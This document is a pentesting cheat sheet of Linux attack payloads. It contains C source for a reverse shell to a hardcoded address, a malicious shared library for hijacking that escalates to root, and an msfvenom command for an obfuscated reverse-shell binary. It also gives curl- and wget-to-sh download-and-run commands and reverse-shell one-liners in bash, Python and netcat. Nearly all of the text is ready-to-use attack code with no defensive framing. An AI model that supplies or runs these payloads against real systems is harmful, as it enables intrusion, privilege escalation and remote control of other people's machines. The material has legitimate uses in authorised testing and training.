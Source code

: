 ##### _Reverse shell payload:_
- 1\. Create payload\.c:
    ```C
    #include <stdio.h>
    #include <unistd.h>
    #include <netinet/in.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <arpa/inet.h>
    
    #define REMOTE_ADDR "192.168.49.132"
    #define REMOTE_PORT 443
    int main(int argc, char *argv[])
    {
        struct sockaddr_in sa;
        int s;
        sa.sin_family = AF_INET;
        sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
        sa.sin_port = htons(REMOTE_PORT);
        s = socket(AF_INET, SOCK_STREAM, 0);
        connect(s, (struct sockaddr *)&sa, sizeof(sa));
        dup2(s, 0);
        dup2(s, 1);
        dup2(s, 2);
        execve("/bin/bash", 0, 0);
    }
    ```
- 2\. Compile payload: `gcc -m64 -fno-stack-protector -z execstack -o payload.elf payload.c`

##### _Create Linux Shared Library payload:_
- 1\. Modify and save the following file as hax\.c:
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h> // for setuid/setgid
    static void runmahpayload() __attribute__((constructor));
    void runmahpayload() {
        setuid(0);
        setgid(0);
        printf("DLL HIJACKING IN PROGRESS \n");
        system("<command to run>");
    }
    ```
- 2\. Compile the shared library object file\.c: `gcc -Wall -fPIC -c -o hax.o hax.c`
- 3\. Produce the shared library file: `gcc -shared -o libhax.so hax.o`

##### _Reverse shell one\-liners and scripts:_
- Obfuscated ELF binary that runs as new process: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<own ip> LPORT=443 prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf`
- Resh\.now\.sh script:
	- 1\. Download and create script from resh\.now\.sh: `https://resh.now.sh/<own ip>:<port>`
	- 2\. Use the following line as payload \(URL encode if ran from a webshell\): 
		- If curl is present: `curl http://<own ip>:<port>/shell.sh | sh`
		- If wget is present: `wget http://<own ip>:8080/shell.sh -O resh.sh && chmod +x resh.sh && ./resh.sh`
- Bash: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
- Python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- Netcat: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
